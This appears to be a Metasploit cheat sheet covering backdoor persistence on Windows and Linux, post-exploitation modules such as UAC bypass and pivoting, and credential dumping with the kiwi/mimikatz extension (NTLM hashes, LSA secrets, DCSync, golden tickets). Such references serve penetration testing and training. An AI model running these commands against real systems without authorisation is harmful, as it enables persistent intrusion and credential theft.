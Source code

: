 ### Persistence modules

Persistence on Windows:

```shell
use post/windows/manage/persistence_exe
set SESSION [session_id]
set REXEPATH [path_backdoor]
set STARTUP [USER/SYSTEM/SERVICE]
```

Allow us to load a specific file which will be executed every time an user login. We need to setup a valid handler with the same payload of the backdoor

Persistence on Linux:

```shell
use exploit/linux/local/cron_persistence
set SESSION [session_id]
set USERNAME [username]
```

We need to setup a valid handler with the same payload of the backdoor. Every time the user logs in the system, the backdoor is triggered

### Post-exploitation Modules

Most of the post exploitation features are modules that are applied against existing Meterpreter sessions.

```shell
msf exploit(handler) > search post
msf exploit(handler) > search bypassuac
msf exploit(handler) > use multi/manage/autoroute
msf exploit(handler) > use auxiliary/server/socks4a
```

### Dumping Passwords with kiwi

```shell
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
meterpreter > load kiwi
Loading extension kiwi...
Success.
meterpreter > getsystem
```